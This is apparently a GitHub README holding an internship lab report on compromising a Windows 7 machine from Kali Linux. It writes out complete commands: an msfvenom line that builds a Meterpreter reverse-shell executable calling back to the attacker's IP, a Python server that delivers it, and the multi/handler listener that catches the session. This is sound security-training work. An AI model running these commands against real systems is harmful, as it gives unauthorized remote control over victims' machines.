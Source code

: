 # ACMEGRADE Internship Final Assessment
## Hack into Windows Machine using Metasploit

This repository contains the final project assessment report from the **Acmegrade Internship, May 2024**. The project successfully demonstrated a controlled penetration test scenario to exploit a vulnerable Windows 7 machine using the *Metasploit Framework*.

---

## 🎯 Project Aim

The primary objective of this project was to gain remote access to a **Windows 7** machine (victim) from a **Kali Linux** machine (attacker) by leveraging the **Metasploit Framework** and a **Meterpreter** payload.

---

## 🛠️ Tools and Technologies Used

| Category | Tool/Technology | Role in Project |
| :--- | :--- | :--- |
| **Attacker OS** | Kali Linux | The penetration testing machine. |
| **Target OS** | Windows 7 | The victim machine that was compromised. |
| **Exploitation** | Metasploit Framework | Used to set up the listener (`multi/handler`) and manage the remote session. |
| **Payload Generation** | `msfvenom` | Used to generate the custom, malicious executable (`venom.exe`). |
| **Delivery Mechanism** | Python `http.server` | Used to quickly host and transfer the payload (`venom.exe`) to the target machine over port `8080`. |

## ⚙️ Execution Summary (Procedure)

### Step 1: Information Gathering

The IP addresses of both machines were identified:

* **Attacker IP (Kali Linux):** `35.35.35.4`
    * *Command:* `ifconfig eth0`
* **Victim IP (Windows 7):** `35.35.35.8`
    * *Command:* `ipconfig`

### Step 2: Weaponization

The **`msfvenom`** command was used to generate the payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=35.35.35.4 LPORT=3535 -f exe -o venom.exe
```

* **Payload:** `windows/meterpreter/reverse_tcp`. This payload creates a connection from the victim back to the attacker.

* **LHOST:** Attacker IP address (`35.35.35.4`).

* **LPORT:** Port for the reverse connection (`3535`).

* **Output:** `venom.exe`


### Step 3: Delivery

1. A Python web server was hosted on the attacker (Kali Linux) machine:

```bash
python -m http.server 8080
```

2. The target (Windows 7) accessed `http://35.35.35.4:8080` and downloaded the `venom.exe` payload.


### Step 4: Exploitation

1. A listener was started on the Kali machine using `msfconsole`:

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 35.35.35.4
set LPORT 3535
run
```

2. The `venom.exe` payload was executed on the Windows 7 target machine.

3. Upon execution, a **Meterpreter session** was successfully opened on the Kali machine.


The target was successfully compromised , allowing post-exploitation commands like `sysinfo` and `ls` to be run on the victim system.

## ✅ Conclusion

The project successfully demonstrated the process of exploiting a vulnerable Windows 7 machine using a Meterpreter payload generated by `msfvenom`. Remote access was gained and controlled through the Metasploit Framework, validating the effectiveness of the penetration testing tools and techniques used.

---

#### Submitted by: Mohammed Abdul Raqeeb  
#### Date: `10-08-2024`
